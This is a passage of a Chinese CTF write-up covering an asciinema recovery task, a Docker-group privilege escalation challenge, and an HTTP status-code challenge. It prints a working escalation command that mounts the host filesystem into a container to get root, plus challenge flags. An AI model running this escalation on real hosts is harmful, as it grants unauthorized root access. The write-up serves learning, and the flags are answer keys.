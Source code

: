 使用了一个命令行文本复制工具``asciinema``

``asciinema cat asciinema_restore.rec > ans.txt``然后稍微用vscode之类的编辑器编辑一下，把前后的删掉还有中间keyboard输入也被录制的那些用空内容替换掉就是个正常的js文件了（ctrl+H然后细心找找有哪些看起来就不对的东西就好），``node flag.js``运行一下就有结果了。



## Docker for Everyone

关键词：Docker用户组提权

事实证明不要随便给人加到用户组里面..挺危险的（

用户创建一个docker容器后，容器内默认是root账户，于是可以利用原容器再创建一个容器，并将主机映射到新容器中的mnt上，这样就可以在新的docker中作为root为所欲为了。

```
alpine:/dev/shm$ groups
hg wheel audio video netdev docker
alpine:/dev/shm$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    187eae39ad94   2 months ago   5.54MB
alpine:/dev/shm$ docker run -v /:/mnt --rm -it 187eae39ad94 chroot /mnt sh
/ # ls
bin         flag        media       root        swap        var
boot        home        mnt         run         sys
dev         lib         opt         sbin        tmp
etc         lost+found  proc        srv         usr
/ # cat flag
flag{u5e_r00t1ess_conta1ner_d347d4440f_plz!}
/ #
```



## HTTP 集邮册

``flag{d1d you hear the HTTP packet from 1991?}``

``flag{stacking_up_http_status_codes_is_fun_2e34303358}``

``flag{I think that when many such status codes are accumulated dfa9d355c4 it becomes a lifetime}``

没学过计网，现学现写（但最后发现结局是现场问GPT能不能构造）



- 获取第二个 flag 需要让 nginx 返回首行无状态码的响应（不计入收集的状态码中）；

我也不知道怎么回事就过了这part...好怪...

```
GET /abcHTTP/1.1 \r\n
```

我猜可能是因为我忘记打空格了所以不带HTTP版本..（测试了一下GET /abc \r\n也可以获得无状态码的响应）



- 获取状态码

200：正常访问
